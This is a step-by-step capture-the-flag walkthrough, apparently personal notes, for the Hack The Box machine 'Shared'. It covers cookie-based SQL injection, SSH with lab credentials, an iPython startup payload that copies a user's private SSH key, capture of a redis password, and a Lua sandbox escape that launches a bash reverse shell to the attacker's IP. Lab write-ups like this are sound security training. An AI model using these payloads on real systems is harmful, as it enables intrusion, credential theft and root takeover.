 1 - Enumerate ports

2 - Add shared.htb to `/etc/hosts`

3 - Enumerate directories and files with [[GoBuster]], after doing this enumerate subdomains with the same tool

4 - Once you've enumerated the subdomains you'll come across `checkout.shared.htb`. Add it to `/etc/hosts`

5 - Now enter a product in the cart and try to buy it, Once you've reached the checkout page look at the previously enumerated cookies and you'll see that the cookie `custom_cart` has changed and now it has in its content the name of the code of the product, so, because the checkout page makes a call to the database, its suceptible to SQLi

6 - Once you've exploited the SQLi and obtained the user and password `james_mason:Soleil101` you can enter the machine through ssh and do some more enumeration. Recommended [[Things to enumerate (Machine)]]

7 - Now that you've the machine enumerated you know that there is a directory called `scripts_review` that, because of the name, makes you think that maybe there's a process that looks for scripts in that folder.

8 - Because of the previous assumption we now can try to look for proccesses being run regularly on the machine by another users in order to pivot to another user. [[Processes enumeration]]

9 - Once you've detected the process that uses the directory scripts_review and you've seen what it does it's time to do some research and look for [[iPython]]. You'll see that the way of exploit this behaviour is the one detailed in the note previously linked. The particular payload you have to use is `import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")` and save it inside a python file called foo.py in the directory startup.

10 - The previously explained step will make the process that runs regularly create a copy of the id_rsa file in a readable file that we'll be able to use in order to enter via ssh as the user that was running the process that employed [[iPython]]

11 - Now that we've the id_rsa of dan_smith you can put it in a file and change that file permissons with `chmod 600 {FILE}` and, after doing all that, execute the ssh client with the following command `ssh -i {KEY-FILE} dan_smith@{IP56}`

12 - Now that you're connected to the machine you can try to enumerate everything to find ways of performing a privilege escalation. The way to find the escalation factor is by doing a `id` command and, once you see you're in the sysadmin group, execute the following command `find / -group sysadmin` in order to find the file `redis_connector_dev` and play with it

13 - The main function of that file is auth to the redis server and gather all the info of it, so, what we can do in order to get the password of the redis service is:
	13.1 - Get the file to our computer by running: `scp -i {KEY_FILE} {USER}@{IP}:{FILE_PATH} {LOCAL_PATH}`
	13.2 - Once the file is in our computer run a netcat server in the redis port: `nc -lvpn 6379`
	13.3 - Run the file in order to get the credentials used by the app in the redis server of the victim's machine

14 - Once you've done the previous step and you've got the password `F2WHqJUz2WEz=Gqq` for the redis service you can try multiple attacks listed in the hacktricks page of redis pentesting
	14.1 - One attack that could work on a redis service could be the one that is carried out in the ssh service by creating a key pair of your own machine and uploading the public key to the authorized keys of the root user in order to get credentials over the root account in the ssh service
	14.2 - Another attack (The one applied in this machine particularly) is the LUA Sandbox Bypass, attack that gives you command execution as the user who runs the redis service (Root in this case). The code to make this happen is:
	```eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash {PATH TO FILE WITH REV_SHELL}", "r"); local res = f:read("*a"); f:close(); return res' 0```
	This attacks require you to previously make a file that contains a simple bash script like this one in the specified path:
```
#!/bin/bash

bash -i >& /dev/tcp/{HACKER'S IP}/{PORT} 0>&1
```
	Clearly you've to have your machine listening on the specified port

15 - Now you should have your reverse shell as root in the netcat window